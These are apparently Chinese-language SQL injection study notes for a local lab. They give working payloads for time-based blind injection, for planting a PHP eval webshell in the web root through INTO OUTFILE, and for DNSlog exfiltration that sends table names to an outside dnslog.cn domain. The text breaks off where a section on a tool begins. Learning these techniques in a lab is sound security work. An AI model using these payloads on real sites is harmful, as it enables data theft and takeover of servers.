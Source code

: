 #跑大量请求的脚本时,加个sleep可以保证每次请求都成功完成





## 时间盲注

**时间盲注:**web页面只返回一个正常页面,利用页面响应时间不同,逐个猜解数据

- 关键函数:sleep()

	语法:sleep(3)       #延迟3秒

- if(condition,true,false)

	条件为真则返回第一个语句,条件为假返回第二个语句

**实例:**

`?id=1' and if(ascii(substring((select database()),1,1))<=ascii('r'),sleep(0),sleep(3))--+`



## mysql 文件上传

`show variables like'%secure%';`      #用来查看



原理很简单：就是用into outfile函数将一个可以用来上传的php文件写到网站的根目录下

`?id=-1')) union select 1,2,"<?php @eval($_POST['password']); ?>" into outfile "D:\\phpstudy_pro\\WWW\\ben.php" --+`

然后就可以通过`蚁剑`和`中国菜刀`来拿到网站的控制权

**注意:**password为预留的密码

​		`D:\\phpstudy_pro\\WWW`为网站的根目录



## DNSlog注入

**load_file():**查看文件内容

`select load_file("C:\\ben.txt");`

可以查看指定地址下的文件

 

`?id=1' and (select load_file(concat("//",(select table_name from information_schema.tables where table_schema=database() limit 2,1),".w4mlap.dnslog.cn/a"))) --+`

其中`w4mlap.dnslog.cn`是从[DNSLog Platform](http://www.dnslog.cn/)上获取的域名



## 使用dnslogsqlinj工具完成注入

进入到linux系统的文件目录下
